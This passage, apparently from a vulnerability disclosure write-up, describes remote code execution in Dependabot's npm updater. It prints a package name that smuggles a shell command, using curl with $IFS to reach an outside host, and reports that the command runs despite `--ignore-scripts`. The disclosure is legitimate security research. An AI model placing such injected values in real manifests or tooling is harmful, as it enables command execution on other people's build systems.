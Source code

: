 ![https://github.com/tyage/dependabot-test3/pull/31](screenshot2.png)

![https://github.com/tyage/dependabot-test3/pull/31](screenshot3.png)

## RCE in npm

By the way, what was happend to Dependabot when I changed the package name to `https://github.com/tyage/;$(curl$IFS@mocos.kitchen:3001);...`?
I found that the command was executed in `run_npm_7_top_level_updater` method.
In this method, the bot runs `npm install` command with `--ignore-scripts --package-lock-only` arguments so that it can see if the lock file is updated without running install scripts.
